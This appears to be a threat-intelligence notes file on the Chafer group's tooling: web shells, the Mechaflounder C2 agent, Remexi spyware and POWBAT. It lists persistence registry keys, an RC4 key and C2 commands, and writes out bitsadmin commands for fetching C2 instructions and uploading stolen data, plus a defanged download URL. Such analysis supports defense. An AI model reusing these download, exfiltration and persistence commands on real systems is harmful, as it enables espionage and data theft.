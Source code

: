  - Spearphishing with malicious attachments and/or hyperlinks -> POWBAT infection
 - Domains
 - Web Shell
     - ANTAK (https://github.com/samratashok/nishang/blob/master/Antak-WebShell/antak.aspx)
         - execute PowerShell commands
     - ASPXSPY (https://github.com/tutorial0/WebShell/blob/master/Aspx/ASPXspy.aspx, https://github.com/tennc/webshell/blob/master/net-friend/aspx/aspxspy.aspx)
 - Steal and abuse outlook web credentials
 - Mechaflounder (C2 agent)
     - Get commands with HTML to text: https://stackoverflow.com/questions/328356/extracting-text-from-html-file-using-python/3987802#3987802
     - Commands: Terminate, download, runtime (sets sleep time between beacons), upload, cd, empty, \<exec\> (execute other strings as reverseshell)
     - Use base16
     - Use one socket for multiples requests and responses
     - `&m=d` => Chafer IOC (all chafer tools use this parameter)
 - Remexi (C2 spyware)
     - C2 on IIS using ASP
     - keylogger
     - screeenshot
     - browser data (cookie, history)
     - Lolbin
         - bitsadmin.exe (Fetches files from the C2 server to parse and execute commands. Send exfiltrated data) (https://lolbas-project.github.io/lolbas/Binaries/Bitsadmin/)
         - extract.exe (Deploys modules from the .cab file into the working Event Cache directory)
         - taskkill.exe (Ends working cycle of modules)
         - schtasks.exe
     - Written in C with GCC && MinGW (IDE Qt Creator)
     - Use scheduled tasks and registry key (`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`, `HKLM\Software\Microsoft\Windows\CurrentVersion\Run\Microsoft Activity Manager`)
     - XOR and RC4
         - RC4 with Win32 CryptoAPI and MD5 hash as an initial vector
         - Some time the key is `salamati`
     - Compiled files: operation_reg.c, thread_command.c, thread_upload.c
     - Steal credentials
     - Execute command
     - Generate planified tasks with custom XPTask.vbs to run `schtasks.exe /create /TN \"Events\\CacheTask_" /XML \"t /F"`
     - Commands:
         - search: Searches for corresponding files
         - search&upload: Encrypts and adds the corresponding files to the upload directory with the provided name
         - uploadfile: Encrypts and adds the specified file to the upload directory with the provided name
         - uploadfolder: Encrypts and adds the mentioned directory to the upload directory with the provided name
         - shellexecute: Silently executes received command with cmd.exe
         - wmic: Silently executes received command with wmic.exe (for WMI commands)
         - sendIEPass: Encrypts and adds all gathered browser data into files for upload to C2
         - uninstall: Removes files, directory and BITS tasks
     - Install with `HCK.cab` decompression, using command: `expand.exe -r \"\" -f:* \"\\\"`
     - Get C2 commands with: `bitsadmin.exe /TRANSFER HelpCenterDownload /DOWNLOAD /PRIORITY normal http:///asp.asp?ui=nrg--`
     - Exfiltration with: `bitsadmin.exe /TRANSFER HelpCenterUpload /UPLOAD /PRIORITY normal "/YP01__" ""`
 - Older than Remexi
     - AutoIT compiled as PE
     - Using FTP
     - Credentials hard coded
 - POWBAT
     - Macro -> scheduled task
     - dropped VBScript update.vbs
         1. PowerShell download from hxxp://go0gIe[.]com/sysupdate.aspx?req=xxx\dwn&m=d -> %PUBLIC%\Libraries\dn.
